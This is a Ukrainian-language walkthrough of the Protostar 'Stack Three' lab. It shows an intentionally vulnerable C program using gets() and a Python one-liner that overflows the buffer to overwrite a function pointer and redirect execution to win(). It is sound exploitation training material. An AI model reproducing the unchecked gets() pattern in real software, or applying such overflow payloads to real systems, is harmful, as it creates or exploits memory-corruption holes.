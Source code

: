 ## [Stack Three](http://exploit.education/protostar/stack-three/)

Stack3 розглядає змінні середовища, як їх можна встановити, а також перезаписувати покажчики функцій, що зберігаються в стеку (як прелюдія до перезапису збереженого EIP).

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Даний приклад коду виглядає дещо по-іншому. Немає змінної, яку потрібно модифікувати. Є тільки функція, яка ніколи не викликається і функція, яка викликається, але не задекларована.
Це натякає нам на перезапис EIP для виклику іншої функції. Тільки спочатку потрібно з'ясувати, яка адреса функції ```win()```. Із цим допоможе каманда ```objdump```:  
```objdump -x stack3 | grep win```  

Отже, маємо адрес функції ```0x08048424```.  

Тепер потрібно дізнатися скільки нам треба перезаписати до змінної ```fp```:  
```python -c "print 'a'*65" | ./stack3``` 

Як і очікувалося, ми отримали ```0x00000061```. Тобто, як і раніше, потрібно записати 64 байти у буфер, а далі адрес функції у реверсі (little endian):  
```python -c "print('a' * 64 + '\x08\x04\x84\x24'[::-1])" | ./stack3```